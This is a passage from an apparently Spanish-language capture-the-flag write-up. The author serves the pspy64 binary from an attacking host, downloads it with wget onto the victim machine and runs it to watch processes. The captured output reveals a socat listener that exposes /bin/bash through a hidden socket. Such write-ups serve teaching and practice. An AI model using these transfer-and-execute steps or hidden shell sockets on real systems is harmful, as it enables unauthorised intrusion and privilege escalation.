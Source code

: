 Vamos a visualizar los procesos del sistema con un binario llamado `pspy64` el cual nos descargaremos desde la maquina `host` y nos lo pasaremos con un servidor de `python3` y con la herramienta `wget` nos lo descargamos en la maquina victima.

```shell
python3 -m http.server
```

> Maquina victima

```shell
cd /tmp
wget http://<IP>:8000/pspy64
```

Una vez que nos lo hayamos descargado, vamos a ejecutarlo de la siguiente forma:

```shell
chmod +x pspy64
./pspy64
```

Info:

```
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/06/06 09:18:36 CMD: UID=1001  PID=331    | ./pspy64 
2025/06/06 09:18:36 CMD: UID=1001  PID=297    | -bash 
2025/06/06 09:18:36 CMD: UID=1001  PID=296    | sshd: albert@pts/0 
2025/06/06 09:18:36 CMD: UID=0     PID=285    | sshd: albert [priv] 
2025/06/06 09:18:36 CMD: UID=33    PID=179    | /usr/sbin/apache2 -k start 
2025/06/06 09:18:36 CMD: UID=33    PID=173    | /usr/sbin/apache2 -k start 
2025/06/06 09:18:36 CMD: UID=33    PID=161    | /usr/sbin/apache2 -k start 
2025/06/06 09:18:36 CMD: UID=33    PID=158    | /usr/sbin/apache2 -k start 
2025/06/06 09:18:36 CMD: UID=33    PID=153    | /usr/sbin/apache2 -k start 
2025/06/06 09:18:36 CMD: UID=33    PID=145    | /usr/sbin/apache2 -k start 
2025/06/06 09:18:36 CMD: UID=33    PID=144    | /usr/sbin/apache2 -k start 
2025/06/06 09:18:36 CMD: UID=33    PID=142    | /usr/sbin/apache2 -k start 
2025/06/06 09:18:36 CMD: UID=33    PID=141    | /usr/sbin/apache2 -k start 
2025/06/06 09:18:36 CMD: UID=33    PID=139    | /usr/sbin/apache2 -k start 
2025/06/06 09:18:36 CMD: UID=0     PID=57     | tail -f /dev/null 
2025/06/06 09:18:36 CMD: UID=1002  PID=54     | socat UNIX-LISTEN:/home/conx/.cache/.sock,fork EXEC:/bin/bash 
2025/06/06 09:18:36 CMD: UID=0     PID=50     | /usr/sbin/cron -P 
2025/06/06 09:18:36 CMD: UID=0     PID=44     | sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups 
2025/06/06 09:18:36 CMD: UID=0     PID=24     | /usr/sbin/apache2 -k start 
2025/06/06 09:18:36 CMD: UID=0     PID=1      | /bin/bash /etc/.start_services 
2025/06/06 09:19:01 CMD: UID=0     PID=340    | /usr/sbin/CRON -P 
2025/06/06 09:19:01 CMD: UID=0     PID=342    | /usr/sbin/CRON -P 
```